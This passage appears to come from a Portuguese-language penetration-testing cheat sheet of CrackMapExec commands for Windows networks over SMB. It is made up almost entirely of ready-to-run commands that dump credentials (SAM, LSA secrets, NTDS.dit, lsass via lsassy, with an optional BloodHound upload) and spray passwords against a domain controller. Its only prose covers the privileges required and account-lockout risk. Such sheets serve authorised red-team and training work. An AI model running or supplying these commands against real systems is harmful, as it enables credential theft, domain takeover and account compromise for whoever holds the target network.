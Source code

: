 
```bash
cme smb <ip> -u <user> -p <password> -d <domain> --sam
```

## cme - Dump LSA
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Realiza o dump dos segredos do LSA usando metodos do secretsdump.py
É necessario ter privilégios de Domain Admin ou de Administrador Local no domain controller alvo


```bash
cme smb <ip> -u <user> -p <password> -d <domain> --lsa
```

## cme - dump ntds.dit
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Realiza o dump do NTDS.dit de um DC alvo usando metodos do secretsdump.py
Dump the NTDS.dit from target DC using methods from secretsdump.py
É necesssario ter privilégios de Domain Admin ou Administrador Local no domain controller alvo.

```bash
cme smb <ip> -u <user> -p <password> -d <domain> --ntds
```

## cme - dump lsass
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
cme smb <ip> -u <user> -p <password> -d <domain> -M lsassy
```

## cme - dump lsass - with bloodhond update
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
cme smb <ip> --local-auth -u <user> -H <hash> -M lsassy -o BLOODHOUND=True NEO4JUSER=<user|neo4j> NEO4JPASS=<neo4jpass|exegol4thewin>
```

## cme - spraying de senhas (usuario=senha)
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
cme smb <dc-ip> -u <user.txt> -p <password.txt> --no-bruteforce --continue-on-success
```

## cme - spraying de senhas com testes múltiplos 
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY #tag/warning

(tomar cuidado com o bloqueio de contas)

```bash
cme smb <dc-ip> -u <user.txt> -p <password.txt> --continue-on-success
```
